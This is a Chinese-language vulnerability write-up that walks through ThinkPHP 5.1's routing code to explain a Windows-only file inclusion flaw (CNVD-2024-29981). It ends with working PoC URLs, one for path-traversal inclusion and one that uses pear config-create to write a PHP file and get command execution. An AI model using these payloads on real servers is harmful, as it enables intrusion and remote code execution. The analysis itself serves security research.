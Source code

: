 ```yaml
---
layout: post
date: 2024-4-24
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "XinYiSleep"
---
```

<h1 id="XvOCI">一.基础信息</h1>

```
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331415510.jpg)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
http://127.0.0.1/index.php/index/index/hello
http://127.0.0.1/index.php?s=index/index/hello
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331708376.jpg)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331771501.jpg)  
进入run方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331806586.jpg)  
走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331839134.jpg)  
600行path方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331875986.jpg)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331988576.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332007814.jpg)

![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332031638.jpg)
然后就直接return了，在看看init方法做了什么。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332049247.jpg)
**parseUrl方法是把路由进行分割成数组**，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332109398.jpg)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332132336.jpg)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332177125.jpg)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332209008.jpg)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332239058.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332269204.jpg)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332296430.jpg)  
也就是看文件是否存在，再去loadFile方法，
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332318589.jpg)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332347707.jpg)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332372496.jpg)
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332400070.jpg)
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743332418019.jpg)

